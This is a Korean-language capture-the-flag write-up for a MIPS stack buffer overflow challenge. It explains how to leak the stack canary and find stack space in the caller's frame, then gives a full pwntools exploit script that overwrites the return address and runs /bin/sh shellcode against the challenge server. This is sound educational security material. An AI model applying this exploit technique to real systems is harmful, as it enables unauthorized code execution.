 # no_risc_no_future
### #mips #pwn

제목 그대로 risc 형식의 mips 아키텍쳐로 된 바이너리에 대한 pwnable 문제이다.

Ghidra로 열어본 바이너리는 이런 모습이다.

![alt text](../../images/7.PNG)


64바이트짜리 배열에 256바이트를 입력할 수 있게 해준다.  
그리고 입력한 버퍼를 출력시켜준다.

![alt text](../../images/3.PNG)

그리고 Canary 외에는 별다른 보호기법도 걸려있지 않는 것으로 보아,
buffer overflow 이후, 쉘코드를 이용하여 쉘을 얻어내면 될 것 같다.


대강 순서는 이러하다.

#### 1. puts 함수를 이용해서 canary를 leak
#### 2. 쉘코드를 올릴 곳을 탐색(필자는 이전 함수의 스택공간을 이용)
#### 3. 쉘코드를 올린다.

ctf 당일에는 2번에서 쉘코드를 어디에 올릴지 도저히 생각이 안나서 못풀었는데 후에 생각해보니까 256바이트나 입력할 수 있으면 caller의 스택공간을 이용할 수 있다는걸 뒤늦게 알았다 ;; (저조한 pwnable 실력)

![alt text](../../images/2.PNG)

우선 canary는 보다시피 sp(s8)+92 영역에 있다.

![alt text](../../images/4.PNG)

main함수의 prologue 과정은 이러하고...

![alt text](../../images/5.PNG)

read하는 버퍼는 sp(s8)+28 부터 입력한다.

그러므로 우리는 아무값이나 64바이트 입력 하게 되면 canary가 leak 된다는 것을 알 수 있다.

그 다음 step은 shellcode를 올릴 곳을 물색해야한다.

![alt text](../../images/1.PNG)

우선 mips에서의 스택 구조는 이렇게 생겼다.

![alt text](../../images/8.PNG)

위는 main함수를 부르는 caller 함수인 __libc_start_main 함수의 sp 주소이다. 서브루틴인 main 함수는 이 sp를 기준으로 또다른 스택 공간을 형성할 것이다.

그러면 이 때, __libc_start_main 함수의 스택공간은 Previous Stack Frame 이 되는 것이다.

여기서 쉘코드를 올릴 스택공간을 찾는 것은 "무조건 이 위치이다!" 라는 공식같은 건 아니고 바이너리를 분석하면서 발견되는 부분이다.

![alt text](../../images/9.PNG)

위는 main 함수의 ra 가 위치한 스택 이후의 공간이고 이렇게 이미 지나온 스택 주소를 다시 갖고있는 주소가 있다. (이런 경우가 간혹 있었던 것 같다.)

그러면 우리는 ra가 있던 스택주소에 0x7fff6ccc 를 overwrite시키고, 0x7fff6cb0 부터 256 바이트를 넘지않게 shellcode를 넣으면 되는 것이다.

```python
from pwn import *
#s=remote('localhost',1338)
s=remote('noriscnofuture.forfuture.fluxfingers.net', 1338)
context.arch = 'mips'
shell = asm(shellcraft.mips.linux.sh())
print(len(shell)) #len
#shell=b"\x50\x73\x06\x24\xff\xff\xd0\x04\x50\x73\x0f\x24\xff\xff\x06\x28\xe0\xff\xbd\x27\xd7\xff\x0f\x24\x27\x78\xe0\x01\x21\x20\xef\x03\xe8\xff\xa4\xaf\xec\xff\xa0\xaf\xe8\xff\xa5\x23\xab\x0f\x02\x24\x0c\x01\x01\x01/bin/sh\x00" 
# len = 60
# invalid shellcode :,(

# leak canary
s.sendline('a'*64)
data=s.recv(65)
canary=s.recv(12)
canary2=u32(b'\x00'+canary[0:3])
print("canary: "+hex(canary2))

payload='a'*64
payload+='a'*4 # canary
payload+='a'*4 # empty
payload+='a'*4 # ra
payload+='a'*24+'kkkk'
s.send(payload)
fp=s.recv()
fp=fp[fp.find(b'kkkk')+4:fp.find(b'kkkk')+8]
fp=u32(fp)
log.info("%s"%hex(fp))
s.sendline(b'a'*64+p32(canary2)+b'a'*4+p32(fp)+shell)
for i in range(0,8):
    s.sendline('')
s.interactive()
```

![alt text](../../images/6.PNG)

.  
.  
.  


**Contact : a42873410@gmail.com**